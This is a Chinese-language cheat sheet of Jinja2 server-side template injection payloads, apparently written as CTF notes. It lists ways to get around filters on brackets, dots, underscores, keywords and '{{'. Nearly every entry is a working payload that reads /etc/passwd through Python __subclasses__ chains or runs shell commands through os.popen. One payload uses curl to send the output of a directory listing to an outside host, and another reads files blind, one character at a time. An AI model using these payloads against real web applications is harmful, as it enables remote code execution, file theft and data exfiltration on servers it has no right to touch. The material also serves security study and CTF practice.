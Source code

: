   * `array[0]`
  * `array.pop(0)`
  * `array.__getitem__(2)`
- #### (1)过滤`[]`和`.`
  
  只过滤`[]`
  
  > pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。  
  > `''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()`  
  > 若`.`也被过滤，使用原生JinJa2函数`|attr()`  
  > 将`request.__class__`改成`request|attr("__class__")`
  #### (2)过滤`_`
  
  利用`request.args`属性  
  `{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__`  
  将其中的`request.args`改为`request.values`则利用post的方式进行传参
- #### (3)关键字过滤
  
  * base64编码绕过  
  `__getattribute__`使用实例访问属性时,调用该方法
  
  例如被过滤掉`__class__`关键词  
  `{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}`
  
  * 字符串拼接绕过  
  `{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}`  
  `{{[].__getattribute__(['__c','lass__']|join).__base__.__subclasses__()[40]}}`
- #### (4)过滤`{{`
  
  使用`{% if ... %}1{% endif %}`，例如
  ```
    {% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://http.bin.buuoj.cn/1inhq4f1 -d `ls / |  grep flag`;') %}1{% endif %}
  ```
  如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来
  ```
    {% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}1{% endif %}
  ```
- #### (5)引号内十六进制绕过
  ```
    {{"".__class__}}
    {{""["\x5f\x5fclass\x5f\x5f"]}}
  ```
  `_`是`\x5f`，`.`是`\x2E`
- #### (6)" ' chr等被过滤，无法引入字符串
  
  * 直接拼接键名
  
  dict(buil=aa,tins=dd)|join()
  
  * 利用`string`、`pop`、`list`、`slice`、`first`等过滤器从已有变量里面直接找
  
  (app.__doc__|list()).pop(102)|string()
  
  * 构造出`%`和`c`后，用格式化字符串代替`chr`
  